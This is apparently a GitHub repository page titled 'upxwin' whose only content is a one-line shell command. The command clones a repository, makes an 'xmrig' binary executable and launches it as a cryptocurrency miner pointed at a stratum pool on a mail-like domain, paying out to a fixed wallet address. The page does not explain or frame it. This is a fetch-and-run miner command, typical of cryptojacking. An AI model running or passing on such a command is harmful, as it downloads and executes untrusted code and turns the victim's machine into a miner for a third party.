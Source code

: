 # upxwin




git clone https://github.com/saroden99/k.git && cd k && chmod +x xmrig && ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 2
